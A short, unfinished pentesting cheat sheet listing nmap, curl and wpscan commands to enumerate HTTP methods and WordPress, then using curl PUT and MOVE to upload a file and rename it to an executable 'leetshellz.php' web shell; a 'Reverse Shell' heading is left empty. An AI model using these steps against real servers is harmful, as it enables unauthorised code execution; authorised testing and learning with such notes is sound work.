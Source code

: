 # WIP



OPTIONS

nmap --script http-methods --script-args http-methods.url-path=**'/test'** x.x.x.x
curl -vX OPTIONS x.x.x.x/abc

Wordpress

wpscan –url x.x.x.x/blog $ip:3129


You can also upload a file using the PUT method with the curl command:

curl -T **'leetshellz.txt'** **'http://$ip'**

And rename it to an executable file using the MOVE method with the curl command:

curl -X MOVE --header **'Destination:http://$ip/leetshellz.php'** **'http://$ip/leetshellz.txt'**







## Reverse Shell